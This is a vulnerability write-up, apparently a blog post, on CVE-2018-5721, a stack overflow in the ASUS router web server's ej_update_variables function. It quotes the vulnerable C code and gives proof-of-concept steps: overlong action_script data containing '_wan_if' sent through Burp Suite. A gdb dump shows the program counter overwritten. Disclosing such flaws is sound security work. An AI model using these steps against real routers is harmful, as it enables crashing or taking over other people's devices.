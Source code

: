 ```yaml
---
title: ASUS router stack overflow in http server
date: 2018-01-17 11:14:49
tags:
- iot
- stack overflow
categories:
- iot
---
```


This is the detail about CVE-2018-5721.

## Detail
The vulnerability exists in router/httpd/web.c. When the authenticated users update some settings, it will call the function ej_update_variables.
While the length of variable action_script is not checked. The attackers can post any data to the server, which can make the server crashed or code execution.
<!-- more -->
```c
static int ej_update_variables(int eid, webs_t wp, int argc, char_t **argv) {
	...
	if (strlen(action_script) > 0) {
		char *p1, *p2;

		memset(notify_cmd, 0, sizeof(notify_cmd));
		if((p1 = strstr(action_script, "_wan_if")))
		{
			p1 += 7;
			strncpy(notify_cmd, action_script, p1 - action_script);
			p2 = notify_cmd + strlen(notify_cmd);
			sprintf(p2, " %s%s", wan_unit, p1);
		}
		...
	}
	...
}
```
## POC
A simple proving.
Fist of all, login into the web management(via any way if you could).
Then just update some setting.
Using burpsuite to change the value of action_script(make sure including "_wan_if"):
<img src="http://of38fq57s.bkt.clouddn.com/burp.PNG">
Then we can see the register of pc has been overwritten:
```
gdb-peda$ target remote 192.168.50.1:23333
Remote debugging using 192.168.50.1:23333
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
Warning: not running or target is remote
Save/restore a working gdb session to file as a script
Usage:
    session save [filename]
    session restore [filename]

0x405954cc in ?? ()
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
Warning: not running or target is remote
Save/restore a working gdb session to file as a script
Usage:
    session save [filename]
    session restore [filename]

0x64646464 in ?? ()
gdb-peda$ i r
r0             0x0	0x0
r1             0x1	0x1
r2             0x258	0x258
r3             0x0	0x0
r4             0x64646464	0x64646464
r5             0x64646464	0x64646464
r6             0x64646464	0x64646464
r7             0x64646464	0x64646464
r8             0x64646464	0x64646464
r9             0x64646464	0x64646464
r10            0x64646464	0x64646464
r11            0x405f04e8	0x405f04e8
r12            0x40576edc	0x40576edc
sp             0xbede3e80	0xbede3e80
lr             0x4056a764	0x4056a764
pc             0x64646464	0x64646464
cpsr           0x60000010	0x60000010
```




